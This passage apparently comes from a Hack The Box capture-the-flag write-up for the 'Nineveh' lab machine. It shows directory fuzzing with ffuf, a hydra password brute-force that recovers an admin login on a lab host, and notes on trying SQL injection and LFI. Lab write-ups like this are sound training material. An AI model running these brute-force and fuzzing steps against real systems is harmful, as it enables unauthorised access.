     [root:...ninevehForAll.png.extracted]# ls -al                                                                                   (master✱)
      total 556
      drwxr-xr-x 2 root root   4096 Feb 25 14:00 .
      drwxr-xr-x 3 root root   4096 Feb 25 14:00 ..
      -rw-r--r-- 1 root root      0 Feb 25 14:00 54
      -rw-r--r-- 1 root root 560768 Feb 25 14:00 54.zlib

    [root:...ninevehForAll.png.extracted]# file -b 54.zlib                                                                          (master✱)
      zlib compressed data

  Not sure if this file is a rabbit hole or not, but I am unable to extract anything from it.

  https://10.10.10.43/db/index.php is a login page to phpLiteAdmin v1.9, however we don't have any creds to login.
  The login doesn't seem vulnerable to SQLi either, so lets skip this one for now.

  Go back to square one and start to fuzz port 80 with a bigger wordlist and we find http://10.10.10.43/department/

    root@nidus:/git/htb/nineveh# ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.43/FUZZ
      --- snip ---
      department              [Status: 301, Size: 315, Words: 20, Lines: 10]


3. We find a new login page http://10.10.10.43/department/login.php.
 In the source code we find a comment '@admin! MySQL is been installed.. please fix the login page! ~amrois'

 Trying /department/login.php for sql auth bypass fails. But we have a user, amrois, so we can try to password spray the login.
 Running hydra with user 'amrois' give a lot of false possitives, making us unable to brute the password.
 Hydra on user 'admin' however works!

  [root:/git/htb/nineveh]# hydra -l admin -P /usr/share/wordlists/rockyou.txt -vV -f 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password"
    --- snip ---
    [ATTEMPT] target 10.10.10.43 - login "admin" - pass "gerson" - 4575 of 14344399 [child 3] (0/0)
    [80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t

 WE GOT CREDS! admin:1q2w3e4r5t on http://10.10.10.43/department/login.php


4. Looking around on the page, we find 'Notes' saying:
  > Have you fixed the login page yet! hardcoded username and password is really bad idea!
  > check your serect folder to get in! figure it out! this is your challenge
  > Improve the db interface.
  >~amrois

  * Binwalk:ing the image gives nothing.
  * The note-page looks like it would be prone to LFI, however I can't find anything.

  The note says something about hardcoded creds, lets try to brute force https://10.10.10.43/db/index.php as well.
